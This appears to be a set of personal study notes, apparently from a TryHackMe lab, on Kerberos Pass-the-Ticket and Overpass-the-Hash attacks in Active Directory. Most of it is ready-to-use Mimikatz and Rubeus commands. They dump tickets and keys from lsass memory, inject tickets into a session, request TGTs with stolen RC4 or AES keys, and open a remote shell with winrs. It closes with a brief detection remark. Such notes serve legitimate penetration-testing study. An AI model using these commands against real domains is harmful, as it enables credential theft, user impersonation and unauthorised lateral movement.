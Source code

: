 ```yaml
---
category: Uncategorized
tags: []
---
```

#mimikatz #rubeus #winrs; 
# Pass The Ticket
- Pass the ticket involves stealing the ticket and the session key and using it impersonate the user to get access to resources or services.
- TGT & ST can be used, but TGTs are preferred because we get access to any service.
### Mimikatz
```powershell
# Tickets can be extracted from lsass memory using the following command
sekurlsa::tickets /export
# On linux, it the keys are located in files. Location of these files can be found in the kerberos configuration files: `/etc/krb5.conf`.

# Inject ticket to current session:
kerberos::ptt <ticket_id>
# This purges the current tickets from memory and injects the specified tickets
```
### Rubeus
```bash
.\Rubeus.exe dump # Dumps the tickets 
# Dumps all ticket when run with elevated privilege
.\Rubeus.exe /nowrap # dumps ticket with no new lines
.\Rubeus.exe /service:krbtgt # specify service

# Using the ticket
.\Rubeus.exe ptt /ticket:<base64ticket> 
```
- Verify the ticket with `klist`:
```powershell
klist
```
- Get a shell
```powershell
# Credentails get automatically injected. similar to runas's /netonly
winrs.exe -r:<server/IP> cmd.exe
```
# Overpass The Hash/Pass The Key
- When a user requests a TGT, the TGT encrypts the timestamp and other details with a key derived from their password. 
- The algorithm used call be the following depending on the kerberos configuration :
	- DES (Deprecated)
	- RC4
	- AES128
	- AES256
- We can ask the Key Distrubution Center for TGT by passing this key through mimikatz
### Mimikatz
- Mimikatz will open a PowerShell session with a logon type 9 (whis is the same as running `runas` with `netonly` option).
- Requires elevation.
```powershell
# for dumping keys from lsass
sekurlsa::ekeys

# For RC4 Hash
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:<key> /run:"<command>"

# For AES128
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:<key> /run:"<command>"

# For AES256
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:<key> /run:"<command>"
```
### Rubeus
```powershell
# pass the key: rc4
# Doesn't require elevation
.\Rubeus.exe asktgt /user:administrator /rc4:<hash/key> /ptt

# This requires elevation
.\Rubeus.exe asktgt /user:administrator /aes256:<key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
Notice that when using RC4, the key will be equal to the NTLM hash of a user. This means that if we could extract the NTLM hash, we can use it to request a TGT as long as RC4 is one of the enabled protocols. This particular variant is usually known as Overpass-the-Hash (OPtH). Using RC4 will be marked as "Encryption Donwgrade" and MDI will flag an alert.